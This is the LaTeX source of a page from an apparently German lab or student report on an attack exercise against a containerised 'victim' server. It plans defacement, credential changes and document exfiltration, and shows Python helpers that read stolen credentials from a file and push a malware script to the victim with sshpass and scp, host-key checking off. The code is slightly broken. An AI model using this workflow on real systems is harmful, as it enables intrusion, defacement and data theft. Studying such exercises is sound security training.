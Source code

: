 \documentclass[12pt]{article}
\begin{document}
\begin{center}
\includegraphics[scale=0.5]{data/success.png}
\end{center}
\subsection{Schadsoftware}
Nun soll über die erlangten Zugangsdaten eine Schadware auf den Opfer Server geladen werden. Dort soll ein Defacement der Seite umgesetzt und zudem die Zugangsdaten der Schnittstelle geändert werden.\\
Des weiteren sollen von außen nicht zugängliche Dokumente auf ein anderen remote Server geladen werden. Für das Hochladen Schadware werden erst einige Hilfsfunktion implementiert.\\
Die Funktion 'getCredentials' ließt die Zugangsdaten aus der Datei 'cred.txt' aus und formatiert diese entsprechend.
\begin{figure}[h]
\caption{Hilfsfunktion getCredentials}
\begin{lstlisting}[language=python, style=code]
def getCredentials():
	#hole gefunde credentials aus datei
	cred = open('cred.txt','r').readlines()
	#case zu string
	cred_string = cred[0].split()
	#lese username und passwort aus
	user = cred_string[0]
	pw = cred_string[1]
\end{lstlisting}
\end{figure}
\newpage
Das Hochladen der Schadware wird mit einer weitern Hilfsfunktion realsiert.
\begin{figure}[h]
\caption{Hilfsfunktion sendMalware}
\begin{lstlisting}[language=python, style=code]
#send file to remote host
def sendMalware():
	getCredentials()
	print("Sending SW.py to victim....")
	ostring = "sshpass -p " + pw +  " scp -o StrictHostKeyChecking=no SW.py "+ user+"@172.17.0.2:/root"
os.system(ostring)
\end{lstlisting}
\end{figure}
Hierbei wirdmit dem Linux programm scp und sshpass gearbeitet.
In Zeile 5 wird ein string für zusammengesetzt der anschließend mit der python Funktion os.system ausgeführt werden kann[7]. 
\vspace{5mm}
\end{document}
